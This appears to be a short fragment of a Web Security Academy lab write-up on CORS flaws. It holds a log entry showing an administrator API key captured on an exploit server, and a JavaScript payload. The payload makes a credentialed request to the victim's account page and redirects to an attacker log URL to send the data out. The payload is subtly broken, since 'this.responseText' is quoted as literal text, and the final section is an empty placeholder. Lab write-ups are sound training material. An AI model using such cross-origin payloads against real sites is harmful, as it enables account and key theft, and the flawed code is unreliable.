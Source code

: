Check the log

```
192.168.1.12    2020-02-06 19:27:31 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22oyEfZl4UJC3kIc6IvycliwYYSdIwliXj%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36 PSAcademy/939914"
```

#### CORS vulnerability with trusted insecure protocols

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac141fb91e0fb1fb80430683009d0046.web-security-academy.net/my-account?id=administrator',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location = "https://ac061f511ee2b1b680d60692012f00fd.web-security-academy.net/log?key=this.responseText";
}
</script>
```

#### CORS vulnerability with internal network pivot attack `TBD`

